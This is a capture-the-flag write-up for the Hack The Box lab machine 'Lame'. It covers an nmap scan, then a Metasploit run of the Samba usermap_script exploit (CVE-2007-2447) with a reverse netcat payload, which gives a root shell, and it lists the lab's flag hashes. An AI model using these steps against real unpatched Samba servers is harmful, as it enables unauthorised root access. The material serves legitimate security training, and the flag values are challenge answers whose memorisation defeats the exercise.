


Port Scan 🔗
Nmap 7.94SVN scan initiated Sat Aug 10 08:35:19 2024 as: nmap -sC -sV -A -T4 -Pn -o scan 10.10.10.3
Nmap scan report for 10.10.10.3
Host is up (0.15s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
| STAT:
| FTP server status:
| Connected to 10.10.14.185
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
| 1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_ 2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Anonymous connection FTP but nothing there
CVE-2007-2447 🔗
Looking online i found this vulnerability for this version of smb
┌──(kali㉿kali)-[~/HTB/Lame]
└─$ msfconsole
msf6 > search smb 3.0.20
[-] No results from search
msf6 > smb 3.0.20
[-] Unknown command: smb. Run the help command for more details.
msf6 > search samba 3.0
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/multi/samba/usermap_script 2007-05-14 excellent No Samba "username map script" Command Execution
1 exploit/linux/samba/chain_reply 2010-06-16 good No Samba chain_reply Memory Corruption (Linux x86)
2 \_ target: Linux (Debian5 3.2.5-4lenny6) . . . .
3 \_ target: Debugging Target . . . .
4 exploit/linux/samba/lsa_transnames_heap 2007-05-14 good Yes Samba lsa_io_trans_names Heap Overflow
5 \_ target: Linux vsyscall . . . .
6 \_ target: Linux Heap Brute Force (Debian/Ubuntu) . . . .
7 \_ target: Linux Heap Brute Force (Gentoo) . . . .
8 \_ target: Linux Heap Brute Force (Mandriva) . . . .
9 \_ target: Linux Heap Brute Force (RHEL/CentOS) . . . .
10 \_ target: Linux Heap Brute Force (SUSE) . . . .
11 \_ target: Linux Heap Brute Force (Slackware) . . . .
12 \_ target: Linux Heap Brute Force (OpenWRT MIPS) . . . .
13 \_ target: DEBUG . . . .
14 exploit/osx/samba/lsa_transnames_heap 2007-05-14 average No Samba lsa_io_trans_names Heap Overflow
15 \_ target: Automatic . . . .
16 \_ target: Mac OS X 10.4.x x86 Samba 3.0.10 . . . .
17 \_ target: Mac OS X 10.4.x PPC Samba 3.0.10 . . . .
18 \_ target: DEBUG . . . .
19 exploit/solaris/samba/lsa_transnames_heap 2007-05-14 average No Samba lsa_io_trans_names Heap Overflow
20 \_ target: Solaris 8/9/10 x86 Samba 3.0.21-3.0.24 . . . .
21 \_ target: Solaris 8/9/10 SPARC Samba 3.0.21-3.0.24 . . . .
22 \_ target: DEBUG . . . .
Interact with a module by name or index. For example info 22, use 22 or use exploit/solaris/samba/lsa_transnames_heap
After interacting with a module you can manually set a TARGET with set TARGET 'DEBUG'
msf6 > use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show options
Module options (exploit/multi/samba/usermap_script):
Name Current Setting Required Description
---- --------------- -------- -----------
CHOST no The local client address
CPORT no The local client port
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS yes The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
RPORT 139 yes The target port (TCP)
Payload options (cmd/unix/reverse_netcat):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST 192.168.163.129 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic
msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.185
LHOST => 10.10.14.185
msf6 exploit(multi/samba/usermap_script) > set LPORT 9091
LPORT => 9091
msf6 exploit(multi/samba/usermap_script) > exploit
[-] Msf::OptionValidateError One or more options failed to validate: RHOSTS.
msf6 exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set RPORT 139
RPORT => 139
msf6 exploit(multi/samba/usermap_script) > exploit
[*] Started reverse TCP handler on 10.10.14.185:9091
[*] Command shell session 1 opened (10.10.14.185:9091 -> 10.10.10.3:47888) at 2024-08-10 09:35:50 -0400
whoami
root
cd /root
ls
Desktop
reset_logs.sh
root.txt
vnc.log
cat root.txt
6118f8816315bd33ecac622d179c65af


Flags 🔗
root:6118f8816315bd33ecac622d179c65af
user:15fd56e82fdefb166bfb1631b6c6360a